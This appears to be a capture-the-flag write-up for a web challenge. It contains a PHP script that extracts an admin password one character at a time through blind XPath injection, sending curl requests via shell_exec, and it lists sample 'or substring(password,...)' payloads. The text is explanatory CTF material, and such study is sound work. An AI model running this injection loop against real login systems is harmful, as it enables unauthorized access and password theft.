 ```php
<?php

function getCommand($position, $char) {
    return "curl -sS 'https://challenge-ecw.fr/chals/web100' -H 'Cookie: session=mySession' -H 'Origin: https://challenge-ecw.fr' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.8' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Referer: https://challenge-ecw.fr/chals/web100' -H 'Connection: keep-alive' --data 'username=admin&password=%27+or+substring%28password%2C" . $position . "%2C1%29%3D%27" . $char . "&nonce=6f9fa8ac0bceed95b08a718f0042852bcbaca3f8d8448bc656a865498c7754a35fdeb41ddd30dc977e6e5c3b1d2a70815cf545f6d7dfc48e5e930815abd1a8cc' --compressed --insecure";
}

$flag = "";

foreach (range(1, 100) as $i) {
    for ($j = 47; $j < 127; $j++) {
        $char = chr($j);

        echo "Trying character: " . $char . " at position: " . $i . PHP_EOL;

        $cmd = getCommand($i, $char);

        $result = shell_exec($cmd);

        if (strpos($result, "Successful authentication. The account password is the flag.")) {
            $flag .= $char;
            break;
        }
    }

    echo "Position: " . $i . ", current flag: " . $flag . PHP_EOL;

    if (strpos($flag, "}")) {
        break;
    }
}
```

### Since we're facing a Blind XPath vulnerability, we can only ask "yes/no" questions using, for instance, substr with specific positions.

```
' or substring(password,1,1)='A 
' or substring(password,1,1)='B
' or substring(password,1,1)='C // correct! move up the position to 2
' or substring(password,2,1)='A 
' or substring(password,2,1)='B
etc...
```
